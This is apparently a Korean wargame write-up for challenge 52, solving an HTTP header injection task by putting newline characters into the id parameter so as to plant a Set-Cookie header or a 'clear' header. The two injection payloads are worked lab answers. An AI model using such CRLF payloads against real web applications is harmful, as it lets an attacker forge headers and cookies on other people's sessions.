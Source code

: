 # 52

## 문제

```
클리어 조건

id: $_GET[id]
clear: dead5erio

$_GET[id]로 헤더인젝션을 해서 id=dead5erio 쿠키를 생성하세요.
```

## 풀이

저렇게 된다면 Mail Header Injection 처럼 `id` 필드에 개행문자만 넣어서 `Set-Cookie`로 쿠키를 만들면 된다.

```
?id=dead5erio%0dSet-Cookie: id=dead5erio
```

근데 문제가 달라졌다고 한다.

```
?id=dead5erio%0aclear: dead5erio
```